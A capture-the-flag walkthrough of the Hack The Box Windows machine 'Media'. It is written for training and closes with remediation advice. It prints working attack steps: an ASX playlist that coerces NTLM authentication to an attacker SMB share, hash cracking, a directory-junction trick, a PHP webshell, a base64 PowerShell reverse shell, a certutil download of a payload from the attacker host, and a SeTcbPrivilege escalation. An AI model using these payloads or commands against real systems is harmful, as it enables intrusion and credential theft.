





HTB CPTS Track: Media (medium)
Black-box Windows box: a 'WMP-compatible' upload form takes an ASX/WAX playlist that coerces NTLM auth to Responder, the cracked user hash gives SSH, a XAMPP directory junction turns the upload folder into the web root for a PHP webshell as local service, and SeTcbPrivilege adds the user to Administrators for root.
contents
Media is a medium Windows box that hangs on one clever idea: an upload form that asks for a video "compatible with Windows Media Player". That phrasing is the whole foothold. Instead of a real video you hand it a WMP playlist that points at your own SMB share, and the HR reviewer's machine authenticates to you. From there it's a cracked hash, a neat Windows directory-junction trick to get code execution as the web server, and a dangerous service privilege to finish.
- The upload form takes a
.wax/.asxplaylist; point itsREFat a UNC path and the reviewer's WMP coerces an NTLM auth to Responder. - Crack
enox's NetNTLMv2 hash (1234virus@) and SSH in for the user flag. enoxcontrols the upload directory, so junction it ontoC:\xampp\htdocsand upload a PHP webshell for RCE asnt authority\local service.- Local service holds
SeTcbPrivilege, abuse it to addenoxto Administrators, then re-login for root.
No creds to start, black-box from the Nmap scan.
Enumeration¶
Nmap¶
sudo nmap -sV -sC -p- 10.129.234.67 -T5
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp open http Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
3389/tcp open ssl/ms-wbt-server?
|_ rdp-ntlm-info: NetBIOS_Computer_Name: MEDIA
Windows host MEDIA with SSH, RDP, and an Apache/PHP stack on 80 (a XAMPP smell already, given Apache + PHP on Windows). The web app is the only unauthenticated attack surface.
The upload form¶
The site is "ProMotion Studio", a hiring page. The interesting part is the application form, which asks for a first name, last name, email, and an "introduction video (compatible with Windows Media Player)":

That one parenthetical is the hint. "Compatible with Windows Media Player" means a human reviewer is going to open my file in WMP. WMP doesn't just play media files; it also opens playlists (.asx, .wax, .m3u) that reference media by path, including UNC paths. After some reading I landed on the WAX format, a WMP redirect file that points at a stream rather than containing one.
Why this works: a WMP playlist entry (
<REF HREF="...">) can point at\\attacker\share\file.wma. When WMP resolves that UNC path, Windows transparently authenticates to the SMB share with the current user's credentials, handing over a NetNTLMv2 response. The upload form's "HR will review your video" is the delivery mechanism: the reviewer opens my playlist, and their machine coughs up a hash. I never need the video to play.
Foothold: NTLM Coercion to SSH¶
Coercing the hash¶
Craft a minimal ASX playlist whose reference is a UNC path back to my box:
<ASX VERSION="3.0">
<ENTRY>
<REF HREF="\\\\10.10.14.137\\SHARE\\file.wma" />
</ENTRY>
</ASX>
Start Responder to catch the SMB authentication:
sudo responder -I tun0
Then submit the form, intercepting the POST in Burp. I first upload any image to get a valid multipart request, then swap the file body for the ASX payload and rename the file to 1kb2.wax:

The response confirms the social-engineering premise, the "video" is queued for a human to review:

A short wait later, Responder catches MEDIA\enox authenticating:
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash : enox::MEDIA:488ce6c798a9a138:E0BF2A738F6D5539ECEBC938E956DA1E:0101...(trimmed)
Crack and log in¶
NetNTLMv2 is hashcat mode 5600:
hashcat -m 5600 hash /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
ENOX::MEDIA:488ce6c798a9a138:e0bf2a738f6d5539ecebc938e956da1e:0101...(trimmed):1234virus@
Cracked: enox / 1234virus@. SSH is open, so straight in:
ssh enox@10.129.84.0
PS C:\Users\enox\Desktop> cat .\user.txt
<FLAG>
user.txt captured.
A note on IPs: the box changed address between sessions (
10.129.234.67during enum,10.129.84.0from here on). Same box.
Lateral Movement: XAMPP Junction to local service¶
I'll be upfront: I leaned on the official writeup for this part, the junction idea isn't one I'd have reached for cold.
The web root is a XAMPP install at C:\xampp\htdocs, and index.php saves each uploaded "video" into a per-submission folder under C:\Windows\Tasks\Uploads\. The folder name is md5(firstname + lastname + email), so my test / test / test@test.com submission lands in 44b85c98e94039c8a0a015f6d3a3449e. Crucially, enox has Full Control over C:\Windows\Tasks\Uploads.
Why this works: the upload handler writes into a directory the attacker controls, but the useful target (the Apache web root) isn't directly writable. A directory junction bridges the two. If I delete my upload folder and recreate it as a junction pointing at
C:\xampp\htdocs, then the next upload with the same form values is written, through the junction, straight into the web root, where Apache will execute it. Junctions are the Windows equivalent of a directory symlink and don't need admin rights to create.
Delete the real upload folder and replace it with a junction onto the web root:
PS C:\Windows\Tasks\Uploads> Remove-Item .\44b85c98e94039c8a0a015f6d3a3449e\ -Recurse
PS C:\Windows\Tasks\Uploads> New-Item -ItemType Junction -Path "C:\Windows\Tasks\Uploads\44b85c98e94039c8a0a015f6d3a3449e" -Target "C:\xampp\htdocs"
Now re-submit the form with the same first/last/email values (so the md5 folder matches), but this time the file is a PHP webshell:
<?php system($_GET['cmd']); ?>

The file lands in htdocs, and hitting it with a base64 PowerShell reverse shell (Powershell #3 from revshells.com) drops a shell as the Apache service account:
http://10.129.84.0/1kb2.php?cmd=powershell.exe -e JABjAGwAaQBlAG4AdAAg...(base64, trimmed)
$ nc -lvnp 6868
Connection received on 10.129.84.0 55669
PS C:\xampp\htdocs> whoami
nt authority\local service

Root: SeTcbPrivilege¶
local service is unprivileged in the usual sense, but its token carries one very dangerous privilege:
PS C:\xampp\htdocs> whoami /priv
Privilege Name Description State
============================= =================================== ========
SeTcbPrivilege Act as part of the operating system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects Enabled
Why
SeTcbPrivilegeis game over: "act as part of the operating system" lets a process build arbitrary access tokens, including tokens that claim membership in any group, such as Administrators. It's one of the most powerful privileges in Windows; holding it is effectively SYSTEM. It shows asDisabledhere, but a process can enable a privilege it already holds, so that doesn't save the box.
I used antonioCoco's TcbElevation PoC, which forges an elevated token and runs a command with it. Pull it over and point it at net localgroup:
PS C:\xampp\htdocs> certutil.exe -urlcache -split -f http://10.10.14.137/TcbElevation-x64.exe TcbElevation-x64.exe
PS C:\xampp\htdocs> ./TcbElevation-x64.exe 2kb1@1kb2.xyz 'net localgroup Administrators enox /add'
Error starting service 1053
The first run threw Error starting service 1053, and it took a couple of retries before it actually stuck. Eventually enox showed up in the group:
PS C:\Users\enox> net localgroup Administrators
Members
-------------------------------------------------------------------------------
Administrator
enox
The catch: my existing shells still carried their old tokens, so C:\Users\Administrator kept returning "Access denied" even after enox was an admin. A group change only lands in a new logon session, so I reconnected over SSH to get a fresh token, and that session could finally read the Administrator profile:
enox@MEDIA C:\Users\Administrator\Desktop>type root.txt
<FLAG>
root.txt captured. Box owned.
Remediation¶
- Don't let an upload dictate an outbound UNC fetch. Validate uploaded files by content, not by "WMP opens it", and block the server/clients from reaching out to arbitrary SMB. Egress-filter SMB (445) at the perimeter so a coerced hash never leaves.
- Keep the web root off attacker-controlled paths. The upload directory shouldn't be fully writable by a low-priv user, and canonicalising/validating the upload path (refusing reparse points/junctions) kills the htdocs write.
- Don't run the app pool with
SeTcbPrivilege. That privilege on a service account is an instant local-admin path. Strip it; the Apache/PHP service has no need for it. - Patch the weak password.
1234virus@fell to rockyou instantly; enforce length and complexity so a coerced NetNTLMv2 isn't crackable offline.
References: